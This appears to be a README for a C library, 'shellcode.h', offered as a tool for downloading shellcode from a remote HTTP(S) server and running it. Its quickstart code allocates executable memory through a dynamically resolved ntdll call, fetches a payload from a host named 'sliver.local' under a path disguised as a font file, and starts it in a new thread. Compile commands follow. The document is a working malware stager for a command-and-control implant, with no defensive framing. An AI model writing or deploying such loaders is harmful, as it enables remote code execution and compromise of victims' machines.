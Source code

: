 # shellcode.h
Simple library (std indepent) to "download" a shellcode from a remote/local HTTP(s) server. Could be tested with: Mingw and Visual Studio.

# Quickstart
```c
#include "shellcode.h"

int main(void)
{
    // Allocate space for shellcode
    PVOID ShellcodeAddress = NULL;
    SIZE_T ShellcodeSize = 14001;

    ((NtAllocateVirtualMemory)ResolveFunction(L"ntdll.dll", "NtAllocateVirtualMemory"))
    (
        GetCurrentProcess(),
        &ShellcodeAddress,
        0,
        &ShellcodeSize,
        (MEM_COMMIT | MEM_RESERVE),
        PAGE_EXECUTE_READWRITE
    );

    // Download shellcode
    DownloadShellcode("sliver.local", 443, "/hi.woff", ShellcodeAddress, ShellcodeSize);
    
    // Execute
    HANDLE hThread = CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)ShellcodeAddress, NULL, 0, 0);
    
    if (hThread == NULL)
    {
        ExitThread(0);
    }

    // WaitForSingleObject 
    while (1) {
        Sleep(1000);
    } 
}
```

# Compiling
```
PS > gcc main.c -o main -lwininet
PS > .\main.exe
```
